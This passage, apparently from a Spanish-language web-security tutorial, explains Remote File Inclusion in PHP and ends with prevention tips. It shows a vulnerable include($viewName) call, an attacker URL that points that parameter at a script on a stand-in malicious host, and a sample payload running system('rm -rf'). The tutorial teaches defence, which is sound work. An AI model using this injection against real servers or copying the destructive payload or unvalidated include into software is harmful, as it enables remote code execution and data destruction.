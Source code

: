 Imagina, como antes, un programa PHP que haga un *include()* tan común como este:

```php
include ($viewName);
```

Imagina también que este código se invoque normalmente mediante una petición del estilo: https://sitio-confiable.com?view=main.php. O algo parecido. Es una estrategia habitual en muchas aplicaciones web.

Pues bien, un atacante podría pedir la siguiente URL: https://sitio-confiable.com?view=https://sitio-malicioso/soy-un-script-malvado.php

Es decir, ha colocado como *$viewName* la URL de un programa PHP externo a nuestro servidor, y nuestro programa hará un *include()* de ese código tan feliz y contento, sin saber que se trata de código malicioso que acabará directamente en las tripas de nuestro programa. 

Una vez que *soy-un-script-malvado.php* se esté ejecutando en el servidor *sitio-confiable.com*, puede hacer cosas terribles, como, por ejemplo, esta:

```php
<?php
  system("rm -rf");
?>
```

(No te digo lo que hace ese comando por si se te ocurre probarlo, pero ya te adelanto que no es agradable).

Para prevenir los ataques por RFI, algunas estrategias válidas son:

* **No confiar en los datos** que no provengan de nuestro sistema.
* **Validar y filtrar los datos** que introduce el usuario (sí, otra vez: validar, validar y validar cualquier cosa que provenga del usuario).
